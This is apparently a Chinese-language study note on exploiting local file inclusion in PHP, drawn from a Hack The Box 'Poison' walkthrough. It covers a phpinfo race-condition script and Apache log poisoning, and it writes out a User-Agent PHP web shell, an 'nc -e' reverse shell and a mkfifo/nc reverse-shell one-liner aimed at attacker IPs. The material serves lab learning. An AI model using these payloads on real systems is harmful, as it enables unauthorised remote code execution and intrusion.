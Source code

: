 # LFI 漏洞的利用

---

[参考链接1](https://medium.com/swlh/hack-the-box-poison-writeup-w-o-metasploit-a6acfdf52ac5)

[参考链接2](https://www.hackingarticles.in/apache-log-poisoning-through-lfi/)

- LFI(本地文件包含漏洞)，这篇文章将介绍有关该漏洞的一些利用

###  1、phpinfo 漏洞信息利用

- 将LFI漏洞转变为远程代码执行（RCE）漏洞的竞争条件，服务器端需要满足以下条件：
    - LFI漏洞
    - 任何显示PHPInfo()配置输出的脚本
- [**脚本下载地址**](https://github.com/mxrmiss/Automation-script/blob/03406f1e18b9cbdcf832941b3bad224d99a0f55e/phpinfo.py)

- 得到脚本后，我们需要修改脚本中的攻击载荷, 使用命令 `locate php-reverse` 定位可用的php载荷位置

```
/usr/share/laudanum/php/php-reverse-shell.php
```

- 将载荷中的内容复制到脚本中, 替换图片中横线部分

![1](https://herozql.oss-cn-beijing.aliyuncs.com/p/o/1.png)

- 修改载荷中的IP地址和端口，然后将脚本的 LFIREQ 参数更改为我们在burpsuit中看到的参数。如：

```
LFIREQ="""GET /browse.php?file=%s
```

- 我们还必须将所有“=>”更改为“=>”，以便脚本正确编译。

- 然后使用nc接收反弹的shell
- 运行脚本 `python3 phpinfo.py xxxip xxxport` (受害者ip和端口)

### 2、日志中毒

- 原理
    - 日志中毒背后的想法是将一些 php 放入日志中，然后将它们加载到 php 将执行的位置。如果我们查看访问日志，我们会看到每次访问该站点时，都会有一个条目，其中包含所访问的 url 和浏览器访问的用户代理字符串。
    - 最简单的情况是更改我们的用户代理字符串，使其包含 php，然后将该日志文件包含在我们的 LFI 中。我们也可以毒化 url 字段，但访问类似`http://10.10.10.84/browse.php?not_an_arg=[php code]`. 只要我们能把我们的php写入日志，我们就成功了。

- 我们需要定位到日志文件的位置，这里以apache为例，通过google我们可以知道配置文件一般在 `/usr/local/etc/apache24/httpd.conf` 目录，查看配置文件，我们可以找到日志文件位置：

```
ErrorLog "/var/log/httpd-error.log"
CustomLog "/var/log/httpd-access.log"
```

- 打开burpsuit，获取日志文件页面页面并对其修改
- 由于用户代理(User-Agent)这一部分是由我们用户决定的，所以我们可以将这一部分换成我们的漏洞代码

```
<?php system($_GET['c']); ?>
```

- 通过修改参数c的值，我们可以在网页得到不同的结果

- 于是将反弹shell传值给c，第一次使用代码`nc -e /bin/bash 10.10.14.27 4444` ,结果只是连接上了靶机，但是未能反弹shell，这就说明了靶机的nc版本不支持-e 参数，于是使用nc的另一种反弹shell方式，代码：

```
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.0.0.1 1234 >/tmp/f
```

- 查看本地监听器，会发现有结果了